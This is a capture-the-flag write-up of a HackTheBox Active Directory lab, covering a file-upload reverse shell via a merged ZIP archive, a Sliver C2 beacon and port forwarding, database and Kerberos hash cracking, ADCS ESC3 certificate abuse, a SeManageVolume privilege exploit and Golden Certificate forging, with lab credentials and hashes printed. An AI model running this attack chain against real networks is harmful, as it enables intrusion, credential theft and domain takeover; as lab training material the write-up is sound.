HackTheBox machine 
IP : `10.129.232.96`
Active Directory lab

Scanning 

```
nmap --top-ports 10000 -sC -sV 10.129.232.96 
```

Non-standard ports for Active Directory

```
80 http
```

Added to `/etc/hosts` file

```
10.129.232.96 certificate.htb dc01.certificate.htb
```

In website `http://certificate.htb/upload.php` we can upload files types
`.pdf .docx .pptx .xlsx .zip` if we upload a simple pdf file it will be successful 

```
echo "Hello" > test.txt
pandoc test.txt -o test.pdf
```



And we can observe this our pdf file via clicking `HERE` 



So i think that means that we should get reverse shell by file uploading.

After `magic bytes` , `MIME` types and `null-byte injection` was used and modified it seems that we must use something different

Not modified



Modified



Also a magic bytes


But nothing worked and i got an error



So let's try to create a malicious .zip file with using a vulnerability `null-byte injection` 
Null byte is a bypass technique for sending data that would be filtered otherwise. It relies on injecting the null byte characters (`%00`, `\x00`) in the supplied data. Its role is to terminate a string.

**Overview:** by creating a ZIP/polyglot archive that contains both a benign PDF and a PHP web shell, the application accepted the upload and stored the shell, allowing initial code execution.We don't use a null-byte injection in this case 
I create a zip file which contains a `test.pdf` 

```
zip test.zip test.pdf
```

After create a reverse shell file. Mention that this is windows machine and we can use `powershell`.

I use this `https://www.revshells.com/` 




Create second archive 

```
zip test2.zip malicious2.php
```

Merge 

```
cat test.zip test2.zip > shell.zip
```

Start listener

```
rlwrap nc -lvnp 9001
```

Trigger 

```
curl http://certificate.htb/static/uploads/8ad6b1453a685cd6a629959dcfb5039d/malicious2.php
```



We got reverse shell to windows host as user  `xamppuser` 

After enumeration i found a `db.php` file which contains credentials probably to database



`3306` port it's probably database ran in localhost so first we must pivot this port 

Credentials

```
certificate_webapp_user : cert!f!c@teDBPWD
```

All users in `DC` 



As i told before i forward port `3306` by `Sliver` 

Generate a beacon

```
generate --mtls 10.10.14.167:443 --save /home/kali/htb/machines/Certificate/pivot.exe --os windows
```

Start listener

```
mtls -L 10.10.14.167 -l 443
```

Connect to session

```
sessions -i 8a74da16
```

Port forwarding 

```
portfwd add --remote 127.0.0.1:3306
```



Now working with `127.0.0.1:8080`



So this is `mysql` and we can connect to target server

Connect

```
mysql -h localhost -P 8080 -u certificate_webapp_user -p --skip-ssl
```

And we got a hashes of all users which are registered on website

Database connection

```
use certificate_webapp_db;
```

Tables

```
show tables;
```

Dump all data from table `users`

```
select * from users;
```



And we mention that there exists an `admin` account with username `sara.b`.
We can try to crack hash

Start `hashcat` with mode `3200(bcrypt)`

```
hashcat sara.hash ~/wordlists/passwords/rockyou.txt -m 3200
```

`sara.hash` it's a file with hash from database

So new credentials

```
Sara.B : Blink182
```



Also `sara.b` can WinRM to `certificate.htb` 



After research i found a 



`.pcap` files we can open in `Wireshark` to observe network.Before analyzing a network first i grep all info about domain by `bloodhound` 

```
bloodhound-python -d 'certificate.htb' -u 'sara.b' -p 'Blink182'  -c all -ns 10.129.232.96 -dc dc01.certificate.htb
```

Enumerated two computer accounts

```
ws-01 192.168.56.128
ws-05 192.168.56.129
```



It's a workstations 

Analyze a `.pcap` file , and from `Description.txt` more focus on SMB maybe some user enter credentials when log in to SMB

```
wireshark -r WS-01_PktMon.pcap
```

I found packet `KRB5` and this is a kerberos authentication of user `Lion.SK` 



So we can build **Kerberos AS-REQ** hash and crack it.

Looks like

```
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159f1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16
```

Hashcat 

```
hashcat lion.hash ~/wordlists/passwords/rockyou.txt
```

New creds

```
lion.sk : !QAZ2wsx
```



This user exists in interesting group `DOMAIN CRA MANAGERS`
The members of this security group are responsible for issuing and revoking multiple certificates for the domain users.

Check vulnerable templates

```
certipy-ad find -u lion.sk@certified.htb -p '!QAZ2wsx' -dc-ip 10.129.232.96 -target certificate.htb -vulnerable
```



We found a `ESC3` !
**ESC3 using Certificate Request Agent** allows designated users to request certificates on behalf of other users, computers, or services within an enterprise Public Key Infrastructure (PKI) environment.

Template name: `Delegated-CRA`
CA name: `Certificate-LTD-CA`
Enrollment Agent - True

So first we need to request a `.pfx` file to user `lion.sk` . We’re directing `certipy-ad` to log in as `lion.sk`, use the `User` certificate template to request a cert on behalf of `Administrator`, and save the resulting certificate as `lion.sk.pfx`. 

Request certificate myself

```
certipy-ad req -u lion.sk@certified.htb -p '!QAZ2wsx' -dc-ip 10.129.232.96 -target certificate.htb -ca Certificate-LTD-CA  -template 'Delegated-CRA'
```

Also i found our target template `SignedUser` 



```
certipy-ad  -debug req -u lion.sk@certified.htb -p '!QAZ2wsx' -dc-ip 10.129.232.96 -target certificate.htb -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of Administrator -pfx lion.sk.pfx
```

And i got a trouble `CERTSRV_E_SUBJECT_EMAIL_REQUIRED` it wants email but if i modify a `-on-behalf-of Administrator@certificate.htb` i to got an issue. I think it's because user `Administrator` doesn't have a `Client Authentication`  or email so i tried to do the same thing but for user `ryan.k` 

```
certipy-ad  -debug req -u lion.sk@certified.htb -p '!QAZ2wsx' -dc-ip 10.129.232.96 -target certificate.htb -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of ryan.k -pfx lion.sk.pfx
```



Then auth with certificate



Validation



So new credentials 

```
ryan.k :  :b1bc3d70e70f4f36b1509a65ae1a2ae6
```

After logging in WinRM we see that user `ryan.k` has a dangerous privilege 



The `SeManageVolumePrivilege` privilege in Windows allows a user to perform volume-related operations, such as defragmenting, mounting, or dismounting a volume.

So we can download an exploit for this named `SeManageVolumeExploit.exe` available in github.We transfer to target machine

Kali machine

```
python3 -m http.server 80
```

Target machine

```

```

List Access Control List flag (ACE)

```
icacls "C:\Users"
```

Before exploit



Execute exploit

```
.\SeManageVolumeExploit.exe
```

```
- OI = Object Inherit
- CI = Container Inherit
- IO = Inherit Only
- F = Full Control
- RX = Read and Execute
- GR = Generic Read
- GE = Generic Execute
```



`BUILTIN\Users:(OI)(CI)(F)` so all normal users have full control over `C:\Users`

So we can perform a `Golden Certificate attack`  

List all certificates in the My (Personal) certificate store for the current user

```
certutil -store my
```



So we need this certificate to perform an attack. First we export a `.pfx` from certificate `Serial Number` 

```
certutil -exportpfx my "75b2f4bbf31f108945147b466131bdca" cert.pfx
```



```
download cert.pfx
```

To create a `Golden Certificate` we use a `certipy-ad` and mode `forge` is used for creation Golden Certificates or self-signed certificates

```
certipy-ad forge -ca-pfx 'cert.pfx' -upn administrator@certificate.htb -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'
```



And now we can authenticate  as `Administrator`  

```
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.129.1.52  -username 'administrator' -domain 'certificate.htb' -ldap-scheme ldap
```

We got a Administrator credentials

```
Administrator :   :d804304519bf0143c14cbf1c024408c6
```



See you soon
Colosion